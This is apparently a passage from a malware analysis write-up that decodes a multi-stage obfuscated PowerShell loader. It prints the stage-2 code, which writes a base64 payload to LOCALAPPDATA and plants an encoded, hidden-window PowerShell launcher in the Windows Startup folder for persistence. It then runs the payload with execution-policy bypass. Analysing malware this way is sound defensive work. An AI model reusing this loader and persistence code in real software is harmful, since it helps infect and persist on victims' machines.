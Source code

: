 To get the plaintext for this one, I simply piped the output of the nodejs evaluation into a new file.

```bash
node decode.js >> stage2.ps1
```

## Stage-2: Many-Layered Loaders

After I got the Stage-1 plaintext representation, I then saw that It contains a new obfuscated PowerShell loader. Lets analyse it. This is the snippet for the Stage-2 loader:

```powershell
# PART 1
$encoded = "SOME_HUGEEEE_BASE64_HASH_HERE"
$vOVQtAphFLBxWfyLaAZc = [Convert]::FromBase64String($encoded)
$RHRRNepOErLHfoQGTZhj = [System.IO.Path]::Combine($env:LOCALAPPDATA, "OhiUcBgomWHfslbtZpeiIdiCCGbK.ps1")
[IO.File]::WriteAllBytes($RHRRNepOErLHfoQGTZhj, $vOVQtAphFLBxWfyLaAZc)

# PART 2
$anotherencodedone = "QGVjaG8gb2ZmDQpzVGFydCAvbUluIFBvd2VyU2hFTEwgLVcgSCAtZSBKQUJQQUZvQVZBQjBBSFlBWkFCbUFFOEFZZ0JzQUZ
jQVpnQlVBR1lBWlFCTkFFZ0FVZ0IxQUZJQVBRQW5BRk1BVUFCbUFFOEFUUUJNQUZJQVVnQlJBSEVBVXdCU0FHMEFWQUJJQUh
rQVZnQllBSEVBUmdBbkFEc0FVQUJ2QUhjQVpRQnlBRk1BYUFCbEFHd0FUQUFnQUMwQVJRQllBR1VBUXdBZ0FHSUFlUUJRQUd
FQVV3QlRBQ0FBTFFCbUFFa0FUQUJGQUNBQUlnQWtBR1VBYmdCMkFEb0FUQUJQQUVNQVFRQk1BRUVBVUFCUUFFUUFRUUJVQUV
FQVhBQlBBR2dBYVFCVkFHTUFRZ0JuQUc4QWJRQlhBRWdBWmdCekFHd0FZZ0IwQUZvQWNBQmxBR2tBU1FCa0FHa0FRd0JEQUV
jQVlnQkxBQzRBY0FCekFERUFJZ0FnQURzQUpBQjRBRkFBV1FCbUFGY0FaZ0JDQUdzQWJnQm1BSFFBUkFCVkFFY0Fad0I1QUh
VQVJnQm5BR3NBUFFBbkFFd0FUd0I0QUd3QVZBQkZBSE1BZWdCWUFHY0FjUUJxQUdJQWNBQlZBRVFBY1FCNkFITUFhQUFuQUE9PQ=="
$YXtSvdVbRcJPWSYEpmBC = [Convert]::FromBase64String($anotherencodedone)
$thirdencoded = [SyStem.Io.paTH]::CombInE($ENV:apPdAtA, [SYsteM.TExT.eNCoDING]::UTF8.gETSTRIng([syStEM.COnvErt]::fRoMBaSE64striNG("TWljcm9zb2Z0XFdpbmRvd3NcU3RhcnQgTWVudVxQcm9ncmFtc1xTdGFydHVwXFlwUW1pZGRBUXNLVlBTckFVUFh6LmJhdA==")))
[io.FiLE]::WRITeAllbYtes($thirdencoded, $YXtSvdVbRcJPWSYEpmBC)
$zoYDRvmVTRDuwUXaqgWr = [System.IO.Path]::Combine($env:LOCALAPPDATA, "OhiUcBgomWHfslbtZpeiIdiCCGbK.ps1")
powershell -exec bypass -File "$zoYDRvmVTRDuwUXaqgWr"
```

The code is splitting from here into to parts. Part 1 and part 2. For now, all we can see in part 1 is, that it takes one massive base64 string, dehashes its value and writes it to the target disk under ```%LOCALAPPDATA%\OhiUcBgomWHfslbtZpeiIdiCCGbK.ps1```. Here is it. We can see, that in Part 1 the massive base64 string is clearly the next stage powershell loader.

In Part 2, we see that we define a new base64 string, decode it and then combine it with another base64 string. This represents a filesystem location. More precisely we are talking of this base64 string and location here:

```bash
TWljcm9zb2Z0XFdpbmRvd3NcU3RhcnQgTWVudVxQcm9ncmFtc1xTdGFydHVwXFlwUW1pZGRBUXNLVlBTckFVUFh6LmJhdA

Returns:

Microsoft\Windows\Start Menu\Programs\Startup\YpQmiddAQsKVPSrAUPXz.bat
```
